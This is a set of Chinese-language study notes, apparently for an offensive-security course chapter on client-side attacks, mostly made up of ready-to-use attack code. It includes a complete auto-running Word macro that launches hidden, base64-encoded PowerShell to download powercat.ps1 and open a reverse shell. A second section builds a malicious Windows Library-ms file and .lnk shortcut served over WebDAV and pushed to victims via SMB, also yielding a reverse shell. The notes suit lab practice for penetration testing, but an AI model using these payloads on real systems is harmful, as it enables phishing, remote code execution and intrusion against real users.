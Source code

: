 本篇对应教材第11章，主要内容“客户端攻击目标枚举”、“OFFICE攻击”、“滥用Windows库文件”，记录使用工具和命令

## 11.1 客户端攻击目标枚举

### 11.1.1 信息收集

```python
site:example.com filetype:pdf
```

gobuster使用-x参数指定文件后缀，下载文件，查看文件信息

```python
exiftool -a -u brochure.pdf
```

注意作者、程序版本等

### 11.1.2 客户端指纹

网站

```python
https://canarytokens.com/
```

## 11.2 office攻击

### 11.2.3 word宏横向

文件后缀

```python
.doc
.docm
```

使用宏执行powershell

```python
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

```python
$Text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```

‍

‍

加入到宏当中时需要50字符一行

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

完整宏

```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
  
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

## 11.3 滥用Windows库文件

### 11.3.1 利用

涉及文件

```python
.Library-ms
.lnk
```

安装webdav

```python
pip3 install wsgidav
```

启动webdav

```python
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

创建config.Library-ms文件

```python
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

url填写webdav地址

创建automatic_configuration.lnk文件

```python
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

两个文件都放在webdav里面，然后把config.Library-ms发给用户，可以邮件可以smb

```python
cd webdav
rm test.txt
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

有用户打开文件夹就会获得反弹shell

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
